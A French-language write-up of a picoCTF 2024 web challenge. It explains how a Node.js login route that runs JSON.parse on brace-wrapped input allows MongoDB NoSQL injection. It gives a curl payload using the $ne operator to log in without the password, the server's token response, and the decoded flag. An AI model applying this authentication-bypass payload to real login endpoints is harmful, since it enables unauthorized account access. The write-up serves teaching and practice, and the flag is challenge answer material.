


## Description du Challenge
- **Plateforme :** picoCTF 2024
- **Catégorie :** Web Exploitation
- **Difficulté :** Medium
- **Auteur :** NGIRIMANA Schadrack
- **Description :** *Can you try to get access to this website to get the flag? Can you log in?*
- **Fichiers fournis :** `server.js` (code source de l'application Node.js)

---

##  Analyse Initiale

En examinant le fichier `server.js`, on observe la configuration de la base de données **MongoDB** en mémoire. Au démarrage, un utilisateur cible est automatiquement créé avec un mot de passe robuste généré aléatoirement :
* **Email :** `picoplayer355@picoctf.org`
* **Password :** Aléatoire (`crypto.randomBytes(16)`)

L'analyse de la route `/login` révèle une implémentation défaillante pour la gestion des types de données :

```javascript
const user = await User.findOne({
  email:
    email.startsWith("{") && email.endsWith("}")
      ? JSON.parse(email)
      : email,
  password:
    password.startsWith("{") && password.endsWith("}")
      ? JSON.parse(password)
      : password,
});
```

### La Vulnérabilité
Le développeur tente de filtrer les entrées mais prend la décision de convertir en objet JSON réel (via `JSON.parse()`) toute chaîne de caractères commençant par `{` et se terminant par `}`. 

En envoyant une chaîne de caractères structurée comme du JSON, l'application va volontairement l'évaluer en tant qu'objet, permettant une **Injection NoSQL (NoSQLi)** directe via les opérateurs MongoDB.

---

## 🛠️ Résolution & Exploitation

Puisque nous connaissons l'adresse email de la cible, nous pouvons utiliser l'opérateur **`$ne`** (Not Equal) dans le paramètre `password` pour valider la requête d'authentification sans en connaître la valeur réelle.

### ⚠️ Piège technique de l'application
L'envoi direct d'un objet JSON (`{"$ne": "naz"}`) via une requête `application/json` provoque l'erreur suivante : `password.startsWith is not a function`. En effet, l'application s'attend d'abord à recevoir une **String** pour valider la méthode `.startsWith("{")`. 

Il faut donc encapsuler l'objet NoSQL sous forme de **chaîne de caractères brute** au sein de la payload.

### Envoi du Payload via `curl`

```bash
curl -X POST http://atlas.picoctf.net:54785/login \
     -H "Content-Type: application/json" \
     -d '{"email": "picoplayer355@picoctf.org", "password": "{\"\$ne\": \"naz\"}"}'
```

Le serveur interprète la chaîne, résout la condition et renvoie le profil de l'utilisateur incluant le jeton :

```json
{
  "success": true,
  "email": "picoplayer355@picoctf.org",
  "token": "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzY3YjFhM2M4fQ==",
  "firstName": "pico",
  "lastName": "player"
}
```



---

##  Décodage du Flag

Le token reçu est encodé en **Base64**. Utilisons le terminal pour le décoder :

```bash
echo -n "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzY3YjFhM2M4fQ==" | base64 -d
```



### 🚩 Flag

```text
picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_67b1a3c8}
```
